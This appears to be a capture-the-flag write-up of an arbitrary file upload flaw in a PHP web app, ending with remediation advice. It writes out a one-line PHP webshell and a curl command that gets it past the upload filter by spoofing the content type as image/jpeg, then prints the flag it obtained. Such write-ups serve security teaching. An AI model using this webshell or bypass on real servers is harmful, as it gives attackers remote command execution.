

# Arbitrary File Upload
## Exploration

During our research, we discovered a file upload functionality on the `upload` page. An insecure
file upload can have severe consequences for a web application if not properly implemented, remote command execution being the worst scenario.

We attempted to perform a basic file upload using an image called `fleur.jpg`:



The file seems to be saved on the server, under the path `/tmp/fleur.jpg`

## Exploitation

We then tried uploading a PHP [webshell](https://fr.wikipedia.org/wiki/Backdoor_(computing)),
since the app is in PHP:

```bash
~ echo '<?php system($_GET["cmd"])?>' >> webshell.php
```

Unfortunately, it appears that there are protections, and we were unable to upload this file due
to its extension:


We also attempted to modify the file name, for instance with `webshell.jpg.php`, in case there was
a poorly configured regex expecting `.jpg` in the filename, but this did not work either.

However, we were successful in uploading this file by modifying its content type as `image/jpeg`:

```bash
curl -X POST 'http://192.168.64.36/index.php?page=upload' --form 'MAX_FILE_SIZE=100000' --form
'uploaded=@webshell.php;filename=webshell.php;type=image/jpeg' --form 'Upload=Upload' | grep flag
[... TRUNCATED DATA ...]
The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
[... TRUNCATED DATA ...]
/tmp/webshell.php uploaded successfully.
```

And we obtained the flag.

## Remediation

A successful arbitrary file upload can lead to the worst-case scenario: remote command execution
on the server.

Here are some possible countermeasures for this vulnerability:

- Validate file extensions by implementing a whitelist of allowed extensions
- Analyze the MIME type and implement a corresponding whitelist
- Rename the downloaded file using a UUID
- Store files on a dedicated server, outside of the web application.
